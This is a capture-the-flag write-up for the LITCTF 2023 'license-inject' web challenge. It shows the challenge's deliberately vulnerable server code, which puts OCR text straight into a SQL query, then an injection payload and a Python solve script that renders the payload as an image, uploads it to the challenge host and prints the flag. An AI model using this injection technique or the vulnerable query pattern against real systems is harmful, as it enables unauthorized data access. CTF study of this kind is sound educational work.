

# Web - license-inject (LITCTF 2023)

## Problem

The website has a form where we can upload pictures of license plates to match against license plates already on the server:



We are also given a relatively long file for the `server.ts` route that handles this logic:

```js
import { error, json } from '@sveltejs/kit';
import type { RequestHandler } from '@sveltejs/kit';
import path from 'path';
import fs from 'fs/promises';
import { createWorker } from 'tesseract.js';

import { dirname } from 'path';
import { fileURLToPath } from 'url';
import mime from 'mime-types';
import sqlite from 'sqlite3';
import randomName from 'random-name';

// @ts-ignore
import { getTextFromImage, isSupportedFile } from '@shelf/aws-lambda-tesseract';

const __dirname = dirname(fileURLToPath(import.meta.url));

const genPlate = (maxLength = 7) =>
	Array(Math.floor(Math.random() * maxLength) + 1)
		.fill('')
		.map(() => 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'[Math.floor(Math.random() * 36)])
		.join('');

// @ts-ignore
export const POST: RequestHandler = async ({ request }) => {
	const data = await request.formData();
	const filePath = path.join(
		process.env.NODE_ENV === 'development' ? __dirname : '',
		process.env.NODE_ENV === 'development' ? '../../../uploads' : '/tmp/',
		Array(30)
			.fill('')
			.map(
				() =>
					'wertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890-'[
						Math.floor(Math.random() * 63)
					]
			)
			.join('') +
			'.' +
			mime.extension((data.get('file') as File).type)
	);
	const file = data.get('file') as File;
	if (!file) {
		return error(400, 'No file');
	}

	await fs.writeFile(filePath, new Uint8Array(await file.arrayBuffer()));
	console.log('wrote file yay!!');
	try {
		let text: string;
		// if (process.env.NODE_ENV === 'development') {
		// eslint-disable-next-line no-constant-condition
		if (true) {
			const worker = await createWorker({
				logger: (m) => console.log((m.progress * 100).toString() + '%'),
				// workerPath: path.join(process.cwd(), 'static', 'tesseract/worker.min.js'),
				// langPath: 'https://tessdata.projectnaptha.com/4.0.0',
				corePath: path.join(process.cwd(), 'static', 'tesseract/tesseract-core-simd.js')
			});

			await worker.loadLanguage('eng');
			await worker.initialize('eng');
			const {
				data: { text: ogText }
			} = await worker.recognize(filePath);
			await worker.terminate();
			text = ogText.trim();
		} else {
			const ogText = (await getTextFromImage(filePath)) as string;
			text = ogText.trim();
		}
		try {
			fs.unlink(filePath);
		} catch (e) {
			console.warn('failed to unlink');
		}

		try {
			const db = new sqlite.Database(
				path.join(
					process.env.NODE_ENV === 'development' ? __dirname : '',
					process.env.NODE_ENV === 'development' ? '../../../' : '/tmp/',
					'data.db'
				)
			);
			db.configure('busyTimeout', 1000);
			console.log('created db');
			const plate = await new Promise((resolve, reject) => {
				const genName = (() => {
					const names: string[] = ['John Doe'];
					return () => {
						const name = randomName.first() + randomName.last();
						if (names.includes(name)) return genName();
						names.push(name);
						return name;
					};
				})();
				const oops = (err: Error) => {
					// clean up db
					db.close();
					try {
						fs.unlink(
							path.join(
								process.env.NODE_ENV === 'development' ? __dirname : '',
								process.env.NODE_ENV === 'development' ? '../../../' : '/tmp/',
								'data.db'
							)
						);
					} catch (e) {
						console.warn('failed to unlink in error');
					}
					return reject(err);
				};
				// create db
				db.run(
					`CREATE TABLE IF NOT EXISTS plates (name TEXT, plate string, fine TEXT, PRIMARY KEY (name))`,
					(err) => {
						if (err) return oops(err);
						console.log('created table');
						// populate db with plates
						const dbSize = 1000;
						const plates = Array(dbSize)
							.fill({ name: '', number: 0, fine: '' })
							// @ts-ignore
							.map(() => ({
								name: genName(),
								plate: genPlate(),
								fine: '$' + Math.round(Math.random() * 1000).toString()
							}));
						plates.push({
							name: 'codetiger',
							// very long random string
							plate: Array(40)
								.fill('')
								.map(() => 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'[Math.floor(Math.random() * 36)])
								.join(''),
							fine: 'LITCTF{redacted}'
						});
						plates.push({
							name: 'Sample User',
							plate: '215BG2',
							fine: '$6942'
						});
						db.serialize(() => {
							console.log('going to fill table');
							db.run('BEGIN TRANSACTION');
							const stmt = db.prepare('INSERT INTO plates VALUES (?, ?, ?)');
							let c = 0;
							for (const plate of plates) {
								c++;
								console.clear();
								console.log('pushing plate', c, '/', dbSize);
								stmt.run(plate.name, plate.plate, plate.fine);
							}
							stmt.finalize();
							db.run('COMMIT', (err) => {
								if (err) return oops(err);
								console.log('Text:', text);

								// try get license plate with plate of text
								console.log('filled table');
								console.log('attempting to query plate: ' + text);
								db.get(`SELECT * FROM plates WHERE plate = "${text}"`, (err, row) => {
									if (err) return oops(err);
									console.log('queried plate');
									// clean up db
									db.close(() => {
										try {
											fs.unlink(
												path.join(
													process.env.NODE_ENV === 'development' ? __dirname : '',
													process.env.NODE_ENV === 'development' ? '../../../' : '/tmp/',
													'data.db'
												)
											);
										} catch (e) {
											console.warn('failed to unlink in error');
										}
										resolve(row ? row : `Plate with text <code>${text}</code> not found.`);
									});
								});
							});
						});
					}
				);
			});
			return json(plate);
		} catch (e) {
			console.error(e);
			return error(400, 'Invalid license plate. Error that occured: ' + (e as Error).message);
		}
	} catch (e) {
		try {
			fs.unlink(filePath);
		} catch (e) {
			console.warn('failed to unlink in error');
		}
		console.error(e);
		return error(500, 'An error occured while trying to extract text');
	}
};

```

## Solution

We first observe that the flag is stored in the following object:

```js
{
    name: 'codetiger',
    // very long random string
    plate: Array(40)
        .fill('')
        .map(() => 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'[Math.floor(Math.random() * 36)])
        .join(''),
    fine: 'LITCTF{redacted}'
}
```

Furthermore, the attempt to query a plate is as follows:

```sql
SELECT * FROM plates WHERE plate = "${text}"
```

Querying by the plate value (40 random characters) would be very slow. Instead, we can use SQL injection to query by name instead with `123" OR name="codetiger` as a possible payload. The SQL query becomes:

```sql
SELECT * FROM plates WHERE plate = "123" OR name="codetiger"
```

The last part of this challenge involves generating an image with that payload as the licenseplate image, this can be done via `PIL` for python 3. Solve script is as follows:


```python
import requests, json, io
from PIL import Image, ImageDraw, ImageFont

def create_image(text):

    font = ImageFont.truetype("Arial.ttf", 50)
    img_width, img_height = (1000, 100)
    img = Image.new('RGB', (img_width, img_height), (255, 255, 255))
    d = ImageDraw.Draw(img)
    text_width = d.textlength(text)
    d.text((100, 20), text, fill=(0, 0, 0), font=font)
    img.save("plate.jpg")
    img_byte_arr = io.BytesIO()
    img.save(img_byte_arr, format='PNG')
    img_byte_arr = img_byte_arr.getvalue()
    return img_byte_arr

def upload(img_bytes):
    url = 'http://34.130.180.82:59024/'
    r = requests.post(url + 'api', files = {'file': img_bytes})
    print(r.text)


upload(create_image('123" OR name="codetiger'))
```

Generated license plate sample:


Solve script sample output is below:
```
{"name":"codetiger","plate":"XEX9IT3VRLZFW1A5TJATU1PAWLN3JKICDILYX39U","fine":"LITCTF{cant_escape_codetiger}"}
```

## Flag

LITCTF{cant_escape_codetiger}